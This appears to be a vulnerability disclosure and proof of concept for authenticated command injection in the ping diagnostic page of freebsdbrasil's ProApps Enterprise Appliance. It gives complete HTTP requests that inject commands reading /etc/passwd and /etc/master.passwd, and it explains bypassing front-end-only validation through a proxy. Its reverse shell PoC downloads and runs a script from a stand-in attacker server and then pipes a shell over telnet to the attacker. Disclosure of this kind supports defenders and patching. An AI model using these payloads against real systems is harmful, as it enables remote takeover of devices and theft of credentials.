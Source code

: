 # Description Item:
```
Product Vendor: freebsdbrasil
Item: ProApps - Enterprise Appliance
Editor Creator: DreamWeaver
PHP: PHP Version 7.3.18 
Java Script Library: Jquery UI 1.6 | Jquery 1.2.6
Server: NGINX
Operational System: FreeBDS Unix
```

## Vulnerability Type:
Remote Code Execution

## Description Vulnerability:
The vulnerability occurs because a user can inject system commands through the application using the ping functionality by adding a sequence command operator in Unix environments, such as (;, &&, or |).
To exploit the vulnerability it's necessary to be authenticated. The user must belong to a permission group called 'Status' and have 'Modified' Permission.
It is also important to mention that successful exploitation requires bypassing input sanitization. The application validates user input only on the front end, making it necessary to send the request through a network proxy, for example. In this way the limitations imposed by the application to be bypassed."

## Exploitation:
After authentication, it will be necessary to access a page called `sta_rede.diagnostico_ping` (http(s)://vulnerablepage.index.php?page=sta_rede.diagnostico_ping&task=view).
This page provides a function to perform an ICMP request to an arbitrary host. To learn more about the ping utility and the ICMP protocol (Request and Reply), please refer to the RFC mentioned in the references section.

The application sends a POST request with the parameters host, testar_pacote, and ttl, where `host` is the target of the ping, `testar_pacote` specifies the number of ICMP requests to send, and `TTL` is time to Live (TTL) for the packets. Upon send the request the application executes the following command on the Unix system: `ping -c $testar_pacote $host`. Below is the `POST` request demonstrating the functionality:

```
POST /include/sta/rede.diagnostico_ping.ajax.php HTTP/1.1
Host: vulnerablewebsite.com
Cookie: PHPSESSID=6457d273b50b3bbaea19cbb4500d6577
Content-Length: 66
Authorization: XXXXXXX
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded
Origin: https://vulnerablewebsite.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://vulnerablewebsite.com/index.php?page=sta_rede.diagnostico_ping&task=view
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

page=sta_rede.diagnostico_ping&host=8.8.8.8&testar_pacote=1&ttl=64

```

This is where an attack vector is noticed. A user can exploit the vulnerability by sending a malicious POST request through a network proxy to bypass input sanitization by appending one of the sequence command operators (;, &&, or |) to the `host` parameter, the web application will execute the ping command mentioned above, followed by an additional command. For example, this could include reading sensitive files like `/etc/passwd`, `/etc/master.passwd` or get a reverse shell or execute arbitrary commands.

The POST request below is a crafted and malicious example:

```
POST /include/sta/rede.diagnostico_ping.ajax.php HTTP/1.1
Host: vulnerablewebsite.com
Cookie: PHPSESSID=6457d273b50b3bbaea19cbb4500d6577
Content-Length: 66
Authorization: XXXXXXX
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded
Origin: https://vulnerablewebsite.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://vulnerablewebsite.com/index.php?page=sta_rede.diagnostico_ping&task=view
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

page=sta_rede.diagnostico_ping&host=8.8.8.8; cat /etc/passwd;cat /etc/master.passwd&testar_pacote=1&ttl=64
```

## Reverse Shell POC:
HTTP POST Request to `sta_rede.diagnostico_ping`:
`page=sta_rede.diagnostico_ping&host=x.x.x.x;curl -O http://attackserver/maliciousfile.sh; chmod +x maliciousfile.sh; ./maliciousfile.sh&testar_pacote=1&ttl=64`

### Maicious file content:
TF=$(mktemp -u);mkfifo $TF && telnet $attacker.ip $attacker.port 0<$TF | sh 1>$TF

By listening on the specified port with Netcat, a reverse shell is successfully opened.

## Impact Vulnerability:
RCE (Remote Code Execution) vulnerabilities allow an attacker to execute arbitrary code on a remote device, it can lead in a Full System Compromise, Data Breach, Lateral Movement, Malware Deployment and Reputational and Financial Damage.

### References:
- https://www.rfc-editor.org/rfc/rfc777
- https://www.checkpoint.com/cyber-hub/cyber-security/what-is-remote-code-execution-rce/

